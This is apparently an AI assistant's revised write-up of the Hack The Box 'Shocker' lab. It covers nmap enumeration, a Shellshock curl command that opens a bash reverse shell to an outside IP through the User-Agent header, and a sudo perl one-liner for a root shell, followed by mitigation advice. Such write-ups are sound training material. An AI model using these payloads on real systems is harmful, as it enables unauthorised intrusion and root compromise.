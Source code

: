 Your current report for the HTB "Shocker" lab looks well-structured, but there are a few areas to improve in accuracy and clarity, especially under **Privilege Escalation**, which seems to have mixed content. Here's a revised and clarified version:

---

markdown
# [Shocker]: HTB Lab Write-Up
- [Introduction](#introduction)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

## Introduction
Shocker - Difficulty: Easy  
- **Description:** A Linux machine that exploits a vulnerable CGI script to gain initial access and escalates privileges using improper sudo configurations.
- **Skills Required:** Web exploitation, Bash command injection, and privilege escalation.

---

## Enumeration
### Nmap Scan
**Command:**  
```bash
nmap -sC -sV 192.168.x.x
```

**Findings:**  
- Port `80` running Apache HTTPD 2.4.18  
- Directory `/cgi-bin/` detected.  

Screenshot:  
![Nmap Scan](screenshots/nmap_scan.png)

---

## Exploitation
### Step 1: Shellshock Exploit on `/cgi-bin/user.sh`
The target is vulnerable to **ShellShock** (CVE-2014-6271). This was exploited by injecting a reverse shell command via an HTTP header:  

**Command:**  
```bash
curl -H 'User-Agent: () { :;}; /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.6/9090 0>&1"' http://192.168.x.x/cgi-bin/user.sh
```

**Result:**  
A reverse shell as the user `shelly` was obtained.  

Screenshot:  
![Reverse Shell](screenshots/reverse_shell.png)  

---

## Privilege Escalation
### Step 1: Analyze Permissions
**Command:**  
```bash
sudo -l
```

**Result:**  
User `shelly` has sudo permissions to run `/usr/bin/perl` as root without a password:  
```plaintext
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

### Step 2: Exploit `/usr/bin/perl` to Gain Root
Using the provided sudo permissions, root access was achieved by spawning a bash shell through Perl:  

**Command:**  
```bash
sudo /usr/bin/perl -e 'exec "/bin/bash";'
```

**Result:**  
A root shell was obtained.  

Screenshot:  
![Root Access](screenshots/root_access.png)

### Step 3: Capture the Root Flag
Navigate to `/root` and display the `root.txt` file:  
```bash
cat /root/root.txt
```

---

## Conclusion
- **Key Lessons Learned:**
  1. Always scan for vulnerable services, such as CGI scripts.
  2. The importance of properly managing `sudo` permissions to avoid privilege escalation.
- **Tools Used:** Nmap, curl, netcat.
- **Next Steps:** Mitigation practices include:
  - Updating Bash to fix ShellShock.
  - Minimizing sudo permissions granted to regular users.
```

---

### **Key Fixes and Updates:**
1. **Corrected Privilege Escalation Details:** 
   - Removed reference to "SUID Binary," which was not relevant to this lab.
   - Clearly explained the usage of `sudo` and `/usr/bin/perl` for escalation.
2. **Better Screenshot Descriptions:** Included placeholder descriptions for expected screenshots.
3. **Simplified Steps for Clarity:** Consolidated details under clear headings.

Let me know if you'd like help automating or formatting this on GitHub!
